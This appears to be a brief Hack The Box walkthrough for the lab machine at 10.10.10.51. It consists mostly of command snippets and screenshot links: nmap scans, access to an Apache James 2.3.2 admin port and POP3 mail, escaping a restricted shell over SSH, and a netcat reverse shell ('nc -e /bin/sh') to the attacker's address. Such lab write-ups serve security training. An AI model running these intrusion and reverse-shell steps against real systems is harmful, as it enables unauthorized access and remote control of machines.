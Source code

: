 ```
nc 10.10.10.51 4555
telnet 10.10.10.51 110
Escape rbash
LinEnum.sh
reverse shell - nc
move to bash
```



```
nmap -sS -sC -sV -T5 -Pn 10.10.10.51
```
![image](https://user-images.githubusercontent.com/33616880/232411290-0737e4a9-3728-48cc-8020-4d623612be4c.png)


```
nmap -p- -T5 10.10.10.51
```
![image](https://github.com/regarmulia/HTB/assets/33616880/c4dc1085-200e-4e78-8228-8110bf48ae04)


```
Apache James Server 2.3.2
```
![image](https://user-images.githubusercontent.com/33616880/232411391-2215be98-0a72-481c-ada2-a785cb0045de.png)



```
nc 10.10.10.51 4555
```
![image](https://user-images.githubusercontent.com/33616880/232411422-93d8116f-02c2-4fdf-b374-6702e705afc7.png)



```
telnet 10.10.10.51 110
```
![image](https://user-images.githubusercontent.com/33616880/232411664-8c8044ef-1c89-441b-853f-55518768d4d7.png)
![image](https://user-images.githubusercontent.com/33616880/232411688-9d73ae68-51d5-401c-b5b3-b72917a225a4.png)



![image](https://user-images.githubusercontent.com/33616880/232411771-ce69392f-c335-4296-b432-bad7cf52866c.png)



```
ssh mindy@10.10.10.51 -t bash
```
![image](https://user-images.githubusercontent.com/33616880/232411850-787a182b-1bf5-409f-b09d-8b6d55570d87.png)



![image](https://user-images.githubusercontent.com/33616880/232417537-d85deedc-395d-4e0e-a8ee-c581372f6d2c.png)



```
nc -e /bin/sh 10.10.14.7 4444
```
![image](https://user-images.githubusercontent.com/33616880/232412026-ce4ec090-a949-4f8d-ac04-58a730fc8cfd.png)
```
python3 -c "import pty;pty.spawn('/bin/bash')"
```
![image](https://user-images.githubusercontent.com/33616880/232412051-828a625b-5617-4f42-994f-026aeb567b26.png)

